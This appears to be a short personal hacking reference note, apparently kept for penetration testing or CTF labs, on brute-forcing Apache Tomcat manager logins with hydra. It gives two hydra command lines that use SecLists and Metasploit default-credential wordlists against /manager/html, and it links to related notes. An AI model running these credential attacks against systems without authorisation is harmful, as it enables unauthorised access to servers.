 # brute force default credentials tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

# Related
- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- [20221003150803](/zet/20221003150803/README.md) brute force default credentials tomcat wfuzz
- [20221003150802](/zet/20221003150802/README.md) brute force default credentials tomcat metasploit
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:
    #assorted #command #hacking #hydra
